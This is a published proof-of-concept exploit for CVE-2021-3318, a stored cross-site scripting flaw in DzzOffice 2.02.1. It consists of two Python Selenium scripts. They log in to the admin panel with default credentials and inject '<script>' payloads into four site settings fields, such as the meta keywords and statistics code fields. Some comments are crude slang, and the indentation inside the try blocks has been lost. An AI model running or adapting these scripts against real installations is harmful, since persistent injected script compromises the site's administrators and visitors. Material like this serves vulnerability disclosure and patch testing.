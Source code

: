 XSS
---

    # Exploit Title: DzzOffice 2.02.1 - 'Multiple' Cross-Site Scripting (XSS)
    # Author: @nu11secur1ty
    # Testing and Debugging: @nu11secur1ty, g3ck0dr1v3r
    # Date: 04/23/2021
    # Vendor: http://www.dzzoffice.com/
    # Link: https://github.com/zyx0814/dzzoffice
    # CVE: CVE-2021-3318

    [+] Exploit Source:

    #!/usr/bin/python3
    # Author: @nu11secur1ty
    # CVE-2021-3318

    from selenium import webdriver
    import time
    import os


    #enter the link to the website you want to automate login.
    website_link="http://localhost/dzzoffice/user.php?mod=login"

    #enter your login username
    username="admin@dzzoffice.com"

    #enter your login password
    password="password"

    #enter the element for username input field
    element_for_username="email"
    #enter the element for password input field
    element_for_password="password"
    #enter the element for submit button
    element_for_submit="loginsubmit"

    # Dai brauzura aaa ta eba
    browser = webdriver.Chrome() #uncomment this line,for chrome users

    # Otvarai da ne vlazam s kasata
    browser.get((website_link))

    # Run...
    try:
    username_element = browser.find_element_by_name(element_for_username)
    username_element.send_keys(username)
    password_element  = browser.find_element_by_name(element_for_password)
    password_element.send_keys(password)

    ### Login
    signInButton = browser.find_element_by_name(element_for_submit)
    signInButton.click()

    ### Exploit
    #time.sleep(3)
    element_for_natrutvanie="admin_password"
    laina="http://localhost/dzzoffice/admin.php?mod=appmarket&op=cloudappmarket"
    browser.get((laina))

    ### Next level... :)
    os.system("python poc_login_1.py")

    print("payload is deployed_0...\n")
    except Exception:

    #### This exception occurs if the element are not found in the webpage.
    print("Some error occured :(")

    ### os.system

    #!/usr/bin/python3
    # Author: @nu11secur1ty
    # CVE-2021-3318

    from selenium import webdriver
    import time


    #enter the link to the website you want to automate login.
    website_link="http://localhost/dzzoffice/admin.php?mod=setting"

    #enter your login username
    username="admin@dzzoffice.com"

    #enter your login password
    password="password"


    #enter the element for username input field
    element_for_username="admin_email"

    #enter the element for password input field
    element_for_password="admin_password"

    #enter the element for submit button
    element_for_submit="submit"

    # Dai brauzura aaa ta eba
    browser = webdriver.Chrome() #uncomment this line,for chrome users

    # Otvarai da ne vlazam s kasata
    browser.get((website_link))

    # Run...
    try:
    username_element = browser.find_element_by_name(element_for_username)
    username_element.send_keys(username)
    password_element  = browser.find_element_by_name(element_for_password)
    password_element.send_keys(password)

    ### Login
    signInButton = browser.find_element_by_name(element_for_submit)
    signInButton.click()

    ### Exploit
    time.sleep(3)
    element_for_natrutvanie="settingsubmit"
    laina="http://localhost/dzzoffice/admin.php?mod=setting"
    browser.get((laina))

    ### Inner text...
    browser.execute_script("document.querySelector('[name=\"settingnew[metakeywords]\"]').value = '<script>alert(\"nu11secur1ty_is_here\");</script>'")
    browser.execute_script("document.querySelector('[name=\"settingnew[sitebeian]\"]').value = '<script>alert(\"nu11secur1ty_is_here\");</script>'")
    browser.execute_script("document.querySelector('[name=\"settingnew[metadescription]\"]').value = '<script>alert(\"nu11secur1ty_is_here\");</script>'")
    browser.execute_script("document.querySelector('[name=\"settingnew[statcode]\"]').value = '<script>alert(\"nu11secur1ty_is_here\");</script>'")

    time.sleep(5)

    # Submit exploit
    signInButton = browser.find_element_by_name(element_for_natrutvanie)
    signInButton.click()

    print("payload is deployed_1...\n")
    except Exception:

    #### This exception occurs if the element are not found in the webpage.
    print("Some error occured :(")
